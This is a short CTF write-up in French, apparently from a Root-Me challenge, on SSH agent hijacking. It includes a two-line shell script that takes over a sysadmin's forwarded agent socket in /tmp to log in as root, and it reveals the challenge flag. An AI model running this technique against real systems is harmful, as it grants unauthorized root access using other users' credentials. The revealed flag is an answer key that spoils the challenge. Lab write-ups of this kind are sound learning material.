 # SSH - Agent Hijacking

## Description : 
> Le but de ce challenge est celui d'exploiter le socket d'authentication lors d'une connexion ssh


## Exploit : 
> Quand le sysadmin se connecte sur la machine, un fichier concernant la connexion SSH est créé dans **/tmp**.
> 
> Il est donc possible utiliser ce fichier pour se connecter en SSH sur la machine du syadmin.
> 
> Puisque le nom de ce fichier est aléatoire (même le nom du dossier dans lequel il est créé) et sa durée de vie est courte, il faut *scripter* le processus de connexion inversée.
> 
> ```
> #!/bin/sh
>
> SSH_AUTH_SOCK=$(echo /tmp/ssh-*/*) ssh-add -l
> SSH_AUTH_SOCK=$(echo /tmp/ssh-*/*) ssh root@root-me 
> ```
> 
> Quand le sysadmin se connecte, il suffit de lancer ce script pour initier la connexion inversée.
> 
> Le flag obtenu dans la machine du sysadmin est : **B3_C4rR3fuLl_W1tH_SSH_F0RwArd_AGENT**